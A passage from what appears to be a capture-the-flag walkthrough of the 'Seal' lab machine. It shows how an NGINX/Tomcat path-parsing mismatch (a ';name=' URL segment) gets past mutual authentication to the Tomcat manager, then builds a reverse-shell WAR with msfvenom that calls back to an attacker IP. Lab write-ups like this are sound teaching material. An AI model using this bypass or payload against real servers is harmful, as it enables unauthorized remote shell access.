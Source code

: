 ```
                proxy_set_header        X-Forwarded-Proto $scheme;
                proxy_pass          http://localhost:8000;
                proxy_read_timeout  90;
                proxy_redirect      http://localhost:8000 https://0.0.0.0;
	}	

```

The first three paths, `/manager/html`, `/admin/dashboard`, and `/host-manager/html` are each set up with the mutual authentication check just like the example above. If the client is authenticated, it will proxy the request to `http://localhost:8000`, which must be where Tomcat is actually listening.

## Shell as tomcat

### Access Tomcat Manager

Some Googling for NGINX Tomcat misconfigurations, the third link was a [Blackhat presentatin by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) (if your Google results include something by Orange, start there). The title is Breaking Parser Logic, and it looks at different ways to trick different servers.

The example in the presentation looks like:

![image-20210903170156205](https://0xdfimages.gitlab.io/img/image-20210903170156205.png)

It’s not clear to me if Seal has Apache running, but otherwise it looks the same. This slide shows the issue I’ll exploit on Seal:

![image-20210903170242220](https://0xdfimages.gitlab.io/img/image-20210903170242220.png)

If I pass a URL like `https://seal.htb/manager;name=0xdf/html`, NGINX will see it as that full URL, but Tomcat will treat it as `https://seal.htb/manager/html`. The first URL won’t match on `location /manager/html`, so it won’t check for mutual auth. Instead, it will be forwarded on to Tomcat. But then Tomcat will see just `/manager/html`, and return that page. It works:

![image-20210903170504319](https://0xdfimages.gitlab.io/img/image-20210903170504319.png)

Giving it the creds from the old config in BitBucket, allows access:

[![image-20210903170602960](https://0xdfimages.gitlab.io/img/image-20210903170602960.png)](https://0xdfimages.gitlab.io/img/image-20210903170602960.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20210903170602960.png)

### Shell

With access to the manager panel, I’ll create a malicious WAR file using `msfvenom`:

```

oxdf@parrot$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.22 lport=443 -f war -o rev.war
Payload size: 13316 bytes
Final size of war file: 13316 bytes
Saved as: rev.war

```

